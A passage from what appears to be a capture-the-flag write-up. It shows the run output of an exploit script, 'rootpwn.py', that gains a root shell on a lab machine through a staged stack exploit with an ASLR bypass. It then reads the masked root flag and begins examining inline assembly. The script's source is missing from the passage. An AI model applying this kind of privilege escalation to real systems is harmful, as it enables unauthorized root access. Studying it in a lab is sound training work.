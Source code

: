 ```
```

This script returns a root shell:

```

root@kali# python3 rootpwn.py 
[+] Connecting to 10.10.10.27 on port 22: Done
[*] xalvas@10.10.10.27:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     i386
    Version:  4.4.0
    ASLR:     Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27: pid 11358
[*] Writing Stage 1 exploit to /tmp/nflklqsofz
[+] Found secret: 0x10d0f1b
[*] Writing Stage 2 exploit to /tmp/nflklqsofz
[+] Address of next buffer: 0x3221224432
[+] Stack address space: 0x3220041728 - 0x3221225472
[*] Writing Stage 3 exploit to /tmp/nflklqsofz
[*] Cleaning up /tmp/nflklqsofz
[*] Switching to interactive mode
# id
uid=0(root) gid=1000(xalvas) groups=1000(xalvas),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

```

And I can read `root.txt`:

```

# cat /root/root.txt
9be653e0************************

```

## Beyond Root

### Assembly

At the start of `main`, there’s a short section of assembly:

```

int main(int argc, char * argv[]) {
asm(
"push $0x00000001\n"
"push $0x0003add6\n"
"push $0xb7e1a000\n"
"call 0x37efcd50\n"
"add $0x0c,%esp\n"

"push $0x00000005\n"
"push $0x0003a000\n"
"push $0xb7e1a000\n"
"call 0x37efcd50\n"
"add $0x0c,%esp\n"
);

```
